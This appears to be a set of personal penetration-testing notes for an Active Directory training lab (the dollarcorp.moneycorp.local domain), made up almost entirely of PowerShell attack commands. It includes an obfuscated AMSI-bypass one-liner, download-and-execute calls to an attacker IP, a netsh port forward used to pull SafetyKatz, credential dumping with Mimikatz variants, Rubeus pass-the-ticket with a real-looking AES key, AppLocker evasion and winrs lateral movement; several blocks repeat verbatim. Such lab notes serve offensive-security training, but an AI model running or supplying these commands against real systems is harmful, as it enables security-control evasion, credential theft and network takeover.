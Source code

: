 
> [!NOTE] **NOTE**
> **REVIEW WHAT PRIVILEGES A USER HAS AFTER COMPROMISE** (BloodHound - PowerView)
> 
> ```powershell
>  Find-InterestingDomainACL | ?{$_.identityreferencename -match 'ciadmin'}

```powershell
ls env
```

```powershell
iex (iwr http://172.16.100.48/sbloggingbypass.txt -useb)
```

```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + (("{1}{0}"-f'1','blE:')+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a'))  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

Review AppLocker settings
```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

```powershell
iex(iwr 'http://172.16.100.48/PowerView.ps1' -useb)
iex(iwr 'http://172.16.100.48/Invoke-SessionHunter.ps1' -useb)
iex(iwr 'http://172.16.100.48/Find-PSRemotingLocalAdminAccess.ps1' -useb)
```

You must have administrator access to list sessions - netexec equivalent
```powershell
Find-DomainUserLocation
Find-PSRemotingLocalAdminAccess -Domain dollarcorp.moneycorp.local -Verbose

winrs -r:dcorp-mgmt cmd /c "set computername && set username"
$null | winrs -r:dcorp-mgmt "powershell /c Get-Process -IncludeUserName"
```

### Lateral 1 (Local Admin)
Add port forward to machine to forwards to webserver - downloading executable is bad
```powershell
echo F | xcopy C:\Users\Public\Loader.exe \\dcorp-adminsrv\C$\Users\Public\Loader.exe

$null | winrs -r:dcorp-adminsrv "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.48"
```

Download from local loopback
```powershell
$null | winrs -r:dcorp-adminsrv "cmd /c C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args sekurlsa::evasive-keys exit"
```

Note down the `aes256_hmac` and the cleartext credentials 
Use Rubues on attacking machine
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args asktgt /user:appadmin /aes256:68f08715061e4d0790e71b1245bf20b023d08822d2df85bff50a0e8136ffe4cb /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

This will create a logon type 9 so the new credentials will only be used when accessing domain resources

```powershell
A:\tools\InviShell\RunWithRegistryNonAdmin.bat
```

```powershell
Import-Module .\PowerView.ps1, .\PowerHuntShares.psm1, .\Find-PSRemotingLocalAdminAccess.ps1, .\PowerUp.ps1
```

You must have administrator access to list sessions - netexec equivalent
```powershell
Find-DomainUserLocation
Find-PSRemotingLocalAdminAccess -Domain dollarcorp.moneycorp.local -Verbose

winrs -r:dcorp-mgmt cmd /c "set computername && set username"
$null | winrs -r:dcorp-mgmt "powershell /c Get-Process -IncludeUserName"
```
### Lateral 2 (Local Admin + AppLocker)
Review AppLocker settings
```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

Copy to AppLocker safe folder - can't dot source
```powershell
copy C:\Users\Public\Invoke-MimiEx-keys.ps1 \\dcorp-adminsrv\c$\'Program Files'

copy C:\Users\Public\Invoke-MimiEx-vault.ps1 \\dcorp-adminsrv\c$\'Program Files'

.\Invoke-MimiEx-keys.ps1
.\Invoke-MimiEx-vault.ps1

& 'C:\Program Files\Invoke-MimiEx-keys.ps1'
& 'C:\Program Files\Invoke-MimiEx-vault.ps1'
```

> **Note**: If clear text creds are found, use `runas` to open cmd 
```powershell
runas /user:dcorp\srvadmin /netonly cmd
```

```powershell
A:\tools\InviShell\RunWithRegistryNonAdmin.bat
```

```powershell
Import-Module .\PowerView.ps1, .\PowerHuntShares.psm1, .\Find-PSRemotingLocalAdminAccess.ps1, .\PowerUp.ps1
```

You must have administrator access to list sessions - netexec equivalent
```powershell
Find-DomainUserLocation
Find-PSRemotingLocalAdminAccess -Domain dollarcorp.moneycorp.local -Verbose

winrs -r:dcorp-mgmt cmd /c "set computername && set username"
$null | winrs -r:dcorp-mgmt "powershell /c Get-Process -IncludeUserName"
```